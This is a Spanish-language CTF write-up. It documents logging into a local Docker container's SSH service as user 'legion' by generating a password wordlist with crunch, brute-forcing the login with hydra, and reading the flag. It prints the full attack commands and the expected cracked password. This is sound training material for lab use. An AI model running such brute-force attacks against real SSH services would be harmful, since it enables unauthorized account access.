 # 🧪 Reto CTF Docker Hub – Usuario 'legion'

<p align="center">
  <img src="Imagenes/GRUPO URTG.png">
</p>

Este repositorio documenta paso a paso la resolución del reto CTF basado en un contenedor Docker que expone un servicio SSH con el usuario `legion`, cuya contraseña debe ser descubierta a partir de un acertijo.

---

## 🔹 PASO 1: Descargar la Imagen Docker

```bash
docker pull jaiderospina/retoctf:1.0
```

**Descripción:**
Descarga una imagen pública con Ubuntu y servicio SSH habilitado, preconfigurado con un usuario `legion`.

<img width="1500" height="400" alt="image" src="https://github.com/user-attachments/assets/43c48b01-01ad-4a80-abf1-864ddcf927f4" />

---

## 🔹 PASO 2: Levantar el Contenedor

```bash
docker run -d -p 2222:22 --name mi-contenedor-ssh jaiderospina/retoctf:1.0
```

**Explicación de parámetros:**
- `-d`: modo segundo plano (detached).
- `-p 2222:22`: expone el puerto 22 del contenedor en el 2222 del host.
- `--name`: nombre asignado al contenedor para fácil manejo.

**Objetivo:** Tener un contenedor activo con SSH disponible para conexión desde el host.
<img width="1500" height="400" alt="image" src="https://github.com/user-attachments/assets/82d37956-15fa-44d0-8355-ec4345fd5503" />

---

## 🔹 PASO 3: Generar Diccionario con `crunch`

### Opción A: Letras definidas

```bash
crunch 5 5 sdeg -t E%%%% -o lista.txt
```

### Opción B: Patrón libre con mayúsculas/minúsculas

```bash
crunch 5 5 -t E%%%% -o lista.txt -f /usr/share/crunch/charset.lst mixalpha
```

**Explicación:**
- `5 5`: longitud fija de 5 caracteres.
- `-t E%%%%`: patrón donde la primera letra es "E", las demás varían.
- `-o lista.txt`: salida al archivo.
- `-f ... mixalpha`: usa todas las letras mayúsculas y minúsculas.

**Objetivo:** Crear un diccionario de posibles contraseñas según pistas del acertijo del reto.
<img width="1500" height="400" alt="image" src="https://github.com/user-attachments/assets/eb8c4421-cb32-427d-92b6-27ca5f474eee" />

---

## 🔹 PASO 4: Ataque de Fuerza Bruta con `hydra`

```bash
hydra -l legion -P lista.txt ssh://localhost:2222
```

**Explicación:**
- `-l legion`: usuario a atacar.
- `-P lista.txt`: diccionario de contraseñas generado.
- `ssh://localhost:2222`: objetivo SSH en el contenedor.

**Resultado esperado:**
Hydra identifica la contraseña correcta e imprime una línea como:

```
[22][ssh] host: localhost   login: legion   password: Esdeo
```
<img width="1500" height="400" alt="image" src="https://github.com/user-attachments/assets/f9a5e395-0b7f-4a26-bd33-76af4b17bc37" />

---

## 🔹 PASO FINAL: Acceso al contenedor por SSH

```bash
ssh legion@localhost -p 2222
```

**Objetivo:**
Ingresar como el usuario `legion` al contenedor una vez descubierta la contraseña, para buscar la bandera (flag) del reto:

```bash
ls
cat flag.txt
```
<img width="1500" height="400" alt="image" src="https://github.com/user-attachments/assets/3543546d-49cc-450b-a452-926a6800e0fb" />

---

## ✅ Conclusión

Este reto CTF pone en práctica habilidades de:
- Manejo de contenedores Docker.
- Generación de diccionarios personalizados con `crunch`.
- Uso de herramientas de fuerza bruta como `hydra`.
- Análisis lógico de acertijos para deducir patrones de contraseñas.

> 💡 Ideal para estudiantes de ciberseguridad, testers o pentesters en formación.
